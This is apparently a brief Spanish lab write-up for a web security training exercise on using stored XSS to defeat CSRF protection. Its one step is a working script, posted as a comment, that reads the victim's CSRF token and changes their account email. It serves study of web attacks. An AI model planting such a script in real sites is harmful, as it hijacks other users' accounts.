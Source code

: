 # 24 Lab: Exploiting XSS to bypass CSRF defenses

1. Ejecutamos el siguiente payload en los comentarios

```sql
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=testo@testo.com')
};
</script>
```

![Untitled](24%20Lab%20Exploiting%20XSS%20to%20bypass%20CSRF%20defenses%2017efab5460ec8135b114c487c1fab506/Untitled.png)